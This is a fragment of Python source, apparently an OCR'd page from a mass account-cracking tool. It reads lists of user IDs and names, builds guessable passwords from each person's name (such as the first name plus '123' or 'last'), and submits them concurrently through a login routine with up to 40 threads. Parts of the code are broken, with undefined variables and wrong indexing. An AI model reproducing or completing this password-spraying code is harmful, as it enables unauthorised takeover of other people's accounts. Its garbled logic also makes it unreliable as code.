 			print('\n\tCrack Processing...\n')

			print('\n\tCrack Processing...\n\n');logo()

			with ThreadPoolExecutor(max_workers=30) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [first, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last']

						elif len(xz) == 2:

							pwx = [first123, xz[0] + 'last123', xz[0] + 'Frist123', xz[0] + 'Last1234']

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1]]

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1]]

						else:

							pwx = [first, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last']

							pwx = [Last, xz[0] + 'Last1', xz[0] + 'first', xz[0] + 'last1']

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('2', '02',):

			time.sleep(1)

			print('\n[•] LOADING ');logo()

			with ThreadPoolExecutor(max_workers=40) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+xz[1], xz[0]+"123"]
